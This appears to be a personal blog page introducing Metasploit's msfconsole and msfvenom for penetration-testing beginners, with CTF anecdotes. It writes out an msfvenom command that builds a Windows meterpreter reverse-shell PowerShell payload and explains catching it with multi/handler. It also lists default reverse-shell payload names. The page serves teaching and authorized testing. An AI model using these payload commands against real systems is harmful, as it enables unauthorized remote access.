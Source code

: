 ```yaml
---
layout: page
title: The Metasploit Framework
subtitle: Msfconsole and Msfvenom
image: /assets/fe.ico
description: Brief overview of Metasploit, and its tools msfconsole and msfvenom
permalink: /tipsandtricks/metasploit/
---
```


# Introduction
So what is Metasploit - it's a framework used to find and exploit vulnerabilities on a network, which makes it a great tool for pen testing. That is a very brief (and reductive) summary, you can find more about them on their website [here](https://www.metasploit.com/). The two ways you'll likely use this framework is through `msfconsole` and `msfvenom`, both of which can be accessed from the terminal.
<br><br>
The first of those, `msfconsole`, is used to find and run known exploits, as well as handle the payloads that are generated from `msfvenom`. And, well, `msfvenom` is what was just described - it is used to craft payloads for specific types of operating systems that  can then be used.
<br><br>

# Msfconsole
This is often used in conjuction with searching exploit-db or more easily using the `searchsploit` tool. Both of these tools will return a list of any known vulnerabilities associated with a service, OS and/or its version. For instance, an old CTF I did called something like "Tom Ghost" I think had an old Apache Tomcat version. From there, I used `searchsploit` to identify the exploit and then `msfconsole` to actually run it. Another time at work I identified a known vulnerability with a Cisco switch running an outdated service using an auxiliary scanner (...with permission, I should probably mention that). Even though I could not exploit it with Metasploit directly and had to do it manually, it was still able to identify there was a vulnerability there. I hope this gives you an idea of what it can be used for.
<br><br>
For the commands within msfconsole I would reference their notes directly using `help` within the console. The fundamental commands you will use will be `search` to locate exploits, auxiliary scanners and more, `use #` for the exploit, configure it with `options` and `set x z`, before ultimately using `exploit` to run the script.
<br><br>
If you're looking to really dive into this the best way is to actually go and do it - get on HTB or TryHackMe and find a CTF that uses the Metasploit framework. It makes infinitely more sense doing it yourself, and reading about it will not get you very far. Besides, I'm a stranger on the internet and for all you know I'm lying to you.
<br><br>
If you want to see how this tool is used in a CTF I did a write-up on a while back, I will link that [here](/thm/2022/04/18/TomGhost.html).
<br><br><br>

# Msfvenom
As previously mentioned, msfvenom can be used to craft targeted payloads for a given system. These payloads are very customizable - you choose the OS, the file type (example .exe, .ps1, etc), and much more.
<br><br>
That command for a Windows machine as a powershell script might look something like `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.11.38 LPORT=4444 -f ps1 -o reverse_test.ps1`. So long as you can get these payloads onto the target machine and can execute them, you should recieve that reverse shell within msfconsole using their `multi/handler` exploit. Set the payload type to whatever you used in the msfvenom command and the listener should light right up when executed on the other side.
<br><br>
To look at all the flags that can be used with this tool use the typical `msfvenom --help` command for the full list.
<br><br><br>

# Default Reverse Shell List
To make the beginning easy for you, below is a list of some default (auto selected) reverse shell payloads that can be crafted with `msfvenom` and recieved with `msfconsole`. Full disclosure on the following list - I did not put this together, I got it from another site probably a year back and I can't remember which one it was, but I _think_ it was [this one](https://docs.rapid7.com/metasploit/working-with-payloads/). Trying to give credit where it's due. Anyway, this is a good place to start, but for the ENTIRE list of payloads (it's a lot) you can use `msfvenom -l payloads` and then sift through them yourself manually or grep for keywords. Here's that list:<br>
```
windows/meterpreter/reverse_tcp
java/meterpreter/reverse_tcp
php/meterpreter/reverse_tcp
php/meterpreter_reverse_tcp
ruby/shell_reverse_tcp
cmd/unix/interact
cmd/unix/reverse
cmd/unix/reverse_perl
cmd/unix/reverse_netcat_gaping
windows/meterpreter/reverse_nonx_tcp
windows/meterpreter/reverse_ord_tcp
windows/shell/reverse_tcp
generic/shell_reverse_tcp
```
<br>

# Final Thoughts
Open source tools and frameworks like Metasploit and nmap are critical to learn and become proficient in. Paid for tools have their benefits, no doubt about that, but gaining experience with these free tools really expands your capabilities when pentesting. I'm actually working on a write-up right now for work since I recently got permission to go after some of the network devices we have there. Using nmap and msfconsole I have been able to compromise 4 completely distinct devices using just those two tools, it just takes some experience and knowing how to search for information and test your theories. I'm hoping to get permission to post that up here (once all the vulnerabilities have been patched) since it was a great learning experience and I'd like to share a real world example instead of another CTF. Point being, get started on one of those sites I mentioned in the beginning of this page and you'll enjoy the challenge, I promise.
<br><br>
Cheers.
<br>
